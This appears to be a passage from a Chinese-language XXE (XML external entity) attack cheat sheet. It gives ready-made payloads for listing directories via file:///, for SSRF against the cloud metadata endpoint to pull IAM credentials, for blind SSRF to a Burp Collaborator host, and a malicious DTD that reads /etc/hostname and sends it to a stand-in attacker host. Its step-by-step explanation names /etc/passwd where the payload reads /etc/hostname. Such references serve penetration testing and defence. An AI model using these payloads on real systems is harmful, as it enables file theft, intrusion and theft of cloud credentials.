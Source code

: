 ![img](XXE.assets/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M5JwHs_b8OcUEBCgAQt%2F-M5MTyV_BaEf3xx_6zUc%2Fimage.png)

### 读取目录

在java的应用程序中，可以通过XXE列出目录的内容，payload如下：

```xml-dtd
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### SSRF

通过XXE进行SSRF攻击，payload如下：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind SSRF

当外部实体不能使用时，也许可以试试XML参数实体，payload如下：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### Blind SSRF 带出敏感数据

在这种情况下，让服务器加载一个带有恶意负载的新DTD，该恶意负载将通过HTTP请求发送文件的内容（对于多行文件，您可以尝试通过ftp://对其进行过滤）。

恶意DTD拿到 /etc/hostname 文件内容的示例如下：

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

该DTD执行以下步骤：

- 定义一个名为file的XML参数实体，包含 /etc/passwd 文件的内容。
- 定义一个名为eval的XML参数实体，其中包含另一个XML参数实体exfiltrate的动态声明。通过向攻击者的web服务器发出包含URL查询字符串中“file”实体值的HTTP请求来操作exfiltrate实体。
- 使用eval实体，这将导致执行exfilter实体的动态声明。
- 使用exfiltrate实体，通过请求得到指定的URL的内容。
